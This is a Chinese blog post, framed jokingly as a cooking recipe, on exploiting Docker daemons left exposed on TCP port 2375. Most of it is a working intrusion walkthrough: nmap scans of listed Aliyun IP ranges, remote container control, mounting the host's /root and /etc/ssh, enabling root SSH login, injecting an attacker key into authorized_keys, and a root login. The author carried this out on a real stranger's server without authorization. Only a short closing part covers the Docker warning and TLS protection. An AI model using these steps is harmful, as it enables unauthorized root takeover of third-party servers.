

# Docker的2375攻击和解决方案

相信了解过[docker](https://so.csdn.net/so/search?q=docker&spm=1001.2101.3001.7020) remote API的同学对2375端口都不陌生了，2375是docker远程操控的默认端口，通过这个端口可以直接对远程的docker daemon进行操作。

当\$HOST主机以**`docker daemon -H=0.0.0.0:2375`**方式启动daemon时，可以在外部机器对 \$HOST 的docker daemon进行直接操作：

```bash
docker -H tcp://$HOST:2375 ps
```

好，说说如何“入侵”，怎么通过这个端口入侵宿主机呢？

这个应该要从几个点说起吧：
- 1. docker对`user namespace`没有做隔离，也就是说，容器内部的root用户就是宿主机的root用户，一旦挂载目录，就可以在容器内部以宿主机的root用户身份对挂载的文件系统随意修改了。

- 1. docker服务拥有很高的执行权利(相当于root)，并且在docker用户组下的普通用户不需要任何其他验证就可以执行docker run等命令。
- 2. 暴露的docker remote  API端口如果没有启动ssl验证的话，任何能连通到这台docker宿主机的的机器都可以随意操作这台docker宿主机的docker  daemon（docker run、docker ps、docker rm等等这些命令都不在话下）。

结合以上3点，就基本具备入侵docker宿主机的条件了

讲得似乎有点悬，不多说，直接拿一个活鲜鲜的例子来讲吧：

(请允许我用最近新学的一道菜将流程带过 ╮(￣▽￣)╭ )

### 秘制红烧肉(docker版)

材料：一整块一整块的“5花”IP段，越肥越好（小白用户越多越好）

配料：nmap，docker

step 1: 扫描2375端口

怎么扫？我选用的是简单易用的黑客必备神器`nmap`了。

扫哪里呢？我选的目标是aliyun的IP段，百度得知：

```bash
42.96.128.0/17    Alibaba (Beijing) Technology Co., Ltd. China  
42.120.0.0/16    Aliyun Computing Co., LTD China  
42.121.0.0/16    Aliyun Computing Co., LTD China  
42.156.128.0/17    Aliyun Computing Co., LTD China  
110.75.0.0/16    Asia Pacific Network Information Centre China  
223.7.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. 
```

我不生产IP，我只是百度的搬运工，别问我这些IP从那来，我也想知道~ >.<

将上面IP内容保存在一个文件中，如 aliyun.list

开始扫描：

```bash
cat aliyun.list| awk '{print $1}' | xargs -n 1 -I {} nmap -sT -p2375 {} --open    

# 简单解释一下命令：
# awk 将第一列IP网段过滤出来
# xargs 将过滤出来的IP一个一个的分次送给nmap，-I {} 是指使用{}来代替传送的参数
# ...
# Starting Nmap 7.01 ( https://nmap.org ) at 2016-06-05 09:57 CST
# Nmap scan report for 42.96.MOSAIC.MOSAIC
# Host is up (0.070s latency).
# PORT     STATE SERVICE
# 2375/tcp open  docker
# ...
```

不到两分钟，第一块`42.96.MOSAIC.MOSAIC`（五花肉已打码） “五花肉”选好了，来吧~

### step 2: 测试2375的直接控制权

```bash
docker -H tcp://42.96.MOSAIC.MOSAIC:2375 ps
# CONTAINER ID        IMAGE                              COMMAND                  CREATED            STATUS             PORTS           
# 73aa690e7c92        imdjh/owncloud-with-ocdownloader   "/entrypoint.sh"         9 days ago          Up 3 days           0.0.0.0:9009->80
# f57c56af0e29        rethinkdb:2.3.2                    "rethinkdb --bind all"   9 days ago          Up 3 days           8080/tcp, 28015/
# 37c1401db593        gaomd/ikev2-vpn-server:0.3.0       "/bin/sh -c /usr/bin/"   10 days ago         Up 3 days           0.0.0.0:500->500
# af7338a5426d        nginx:1.9-alpine                   "nginx -g 'daemon off"   3 weeks ago         Up 3 days           443/tcp, 0.0.0.0
# ...
```

这个服务器的owner也太配合了(⊙ο⊙)，ps直接看到内容，说明这个主机的2375是没有ssl验证的，基本满足入侵要求。

“五花”洗好，切好，准备下锅~

### step 3: 远程启动自己的容器

拿到了docker的控制权能做什么呢？ **拿到了就呵呵了~**

```r
# images 看看本地已有的镜像
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 images
# ...
# swarm                              latest              47dc182ea74b        4 weeks ago         19.32 MB
# jwilder/nginx-proxy                latest              203b20631e41        4 weeks ago         255.6 MB
# ubuntu                             latest              c5f1cf30c96b        4 weeks ago         120.8 MB
# shipyard/shipyard                  latest              ba426f0944bc        5 weeks ago         58.92 MB
# ...
```

省略了一部分输出，镜像还蛮多的，就选个ubuntu吧

```objectivec
# docker -H tcp://42.96.MOSAIC.MOSAIC:2375 run --rm -it --entrypoint bash -v /root:/tmp/root -v /etc/ssh:/tmp/ssh_etc -v /var/log:/tmp/log ubuntu
```

看到这步，相信对ssh有一些了解的同学应该就明白了

### step 4: ssh pub key 注入

在刚刚启动的容器中先看看 `/tmp/ssh_etc/sshd_config` (就是宿主机的`/etc/ssh/sshd_config`) 的PermitRootLogin字段。如果是`no`就改成`yes`，允许root通过ssh登录

然后在**你的机器上**生成一对新的pub key（已经有ssh key的也建议生成一个新的，不要使用自己日常使用的ssh pub key）

```perl
# 使用 ssh-keygen生成
ssh-keygen -t rsa -C "hello@world.com"
# 执行命令后的提示Enter file in which to save the key要看好，不要把自己的ssh key覆盖了，可以选着/tmp/id_rsa
# 其他提示enter到底即可
```

继续，注入ssh pub key，回到**刚刚启动的容器**执行

```bash
cat >> /tmp/root/.ssh/authorized_keys <<EOF
>ssh-rsa AAA....     # 这里粘贴你刚刚在自己机器生成的/tmp/id_rsa.pub
>EOF
# 如果/tmp/root/.ssh目录不存在，就直接创建
```

八角香叶生抽老抽醋都加上，中火烹饪，准备出锅~

### step 5: 登入服务器

```ruby
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
# ssh -i 指定秘钥登录
ssh -i /tmp/id_rsa root@42.96.MOSAIC.MOSAIC
 
# Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)
#
# * Documentation:  https://help.ubuntu.com/
#
# Welcome to aliyun Elastic Compute Service!
#
# Last login: Fri Jun  3 01:38:07 2016 from 120.85.MOSAIC.MOSAIC
# manpath: can't set the locale; make sure $LC_* and $LANG are correct
# root@iZ28p9b7e***:~# 
# ...

```

大火收汁，起锅!

## 郑重声明

以上教程仅为交流学习之用，`42.96.MOSAIC.MOSAIC` 服务器上的`id_rsa.pub`在制作完本教程后已主动清除，并在服务上留言告知。

如果你一不小心也发现了可用的2375端口，**希望也能点到即止，误做他用**，或者发现其他入侵漏洞，可以和大家交流学习。

## 2375是docker漏洞吗？

非也！**2375直接裸露地暴露在公网上纯属是用户习惯或者偷懒的问题**，**2375可以在相对安全的内部网络中方便测试使用，并不适合使用在投入到生产环境中。**

docker官网第一篇文档quick start上有句话是这样子的：

```vbnet
Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with
access to that port has full Docker access; so it is not advisable
 on an open network.
```

已经Warning告知：如果将daemon直接暴露在一个TCP端口，将可能会被以非root用户去获取宿主机的root权限。其实上面的说提到的服务器之所以这么容器被入侵，也正是这个原因。

## 何以防之

那么，问题来了，如果想用Remote API，又不想有被入侵的风险，怎么办呢？

docker官方文档上介绍了一种通过CA认证方式使用Remote API

具体可以参考：[Protect the Docker daemon socket](https://docs.docker.com/engine/security/https/)

(等理解了再补一篇博客吧，就姑且让我以一个链接的形式带过吧O.O)

配置过程还算是比较简单的，下面放一张图，展示配置SSL后的效果：

 



文章知识点与官方知识档案匹配，可进一步学习相关知识